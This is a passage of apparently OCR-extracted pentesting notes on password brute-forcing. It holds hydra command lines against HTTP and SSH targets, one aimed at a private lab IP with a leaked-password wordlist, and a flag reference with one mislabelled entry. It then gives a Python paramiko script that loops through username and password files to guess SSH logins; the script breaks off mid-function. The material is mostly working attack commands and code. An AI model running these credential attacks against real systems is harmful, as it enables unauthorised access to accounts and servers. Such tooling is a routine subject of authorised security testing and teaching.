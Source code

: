 `hydra -L user_list.txt -P password_list.txt http-get://target.server`

<i>Attacking `ssh service`</i>

`hydra -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-15.txt ssh://192.168.99.22:22`

<u>Notations</u>

```
-l ==> Password string to use
-L ==> Define List of usernames stored in a File

-p ==> Password string to use
-P ==> Define List of passwords stored in a File

telnet:// ==> used for telnet connection
http-get:// ==> used for http-get requests
```


## <u>Bruteforce Scripts</u>

```python

# Quick SSH password Checker

import socket
import ssh2

import paramiko
import socket
import time
from colorama import init, Fore


init()

GREEN = Fore.GREEN
RED   = Fore.RED
RESET = Fore.RESET
BLUE  = Fore.BLUE

# Username file
user_file = open("./SSH/recheck_userlist.txt", "r")
user_list = user_file.readlines()
user_file.close()

# Password file
pass_file = open("./SSH/recheck_passlist.txt", "r")
pass_list = pass_file.readlines()
pass_file.close()


# HOST
host = "192.168.99.22"


def is_ssh_open(hostname, username, password):
    # initialize SSH client
    client = paramiko.SSHClient()
    # add to know hosts
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(hostname=hostname, username=username, password=password, timeout=3)
    except socket.timeout:
```